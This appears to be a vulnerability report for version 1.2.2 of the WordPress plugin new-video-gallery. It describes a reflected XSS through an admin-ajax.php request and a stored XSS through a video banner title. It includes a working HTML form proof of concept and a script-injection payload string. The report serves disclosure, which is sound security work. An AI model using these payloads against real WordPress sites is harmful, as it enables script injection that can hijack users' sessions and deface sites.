 * App: new-video-gallery
* Verion: 1.2.2
* Issue: xss

# Detail
## 
[new-video-gallery](https://wordpress.org/plugins/new-video-gallery/) is a Wordpress plugin for create YouTube Gallery & Create Vimeo Gallery into your WordPress site. In the version 1.2.2 there are some XSS issues.

At frist, in the file new-video-gallery/new-video-gallery.php:300 line, the function `_ajax_video_gallery()` can be controlled.


And then the function `_vg_ajax_callback_function($id)` will be sinked.
![1](1.png)
- The PoC:
```php
<html>
<body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![2](2.png)

## 2 
Press `Add Video Gallery` and into this page then press`ADD VIDEO BANNER`.You can upload an image and write the payload on hte `Title` label.
![3](3.png)
Then press Publish And You will get a `Shortcode`, press the `Shortcode` in your page.
![4](4.png)
![5](5.png)
The xss will execute in the front page.
![6](6.png)

* Poc
  ``` html
  “><script>alert(2)</script><
  ```
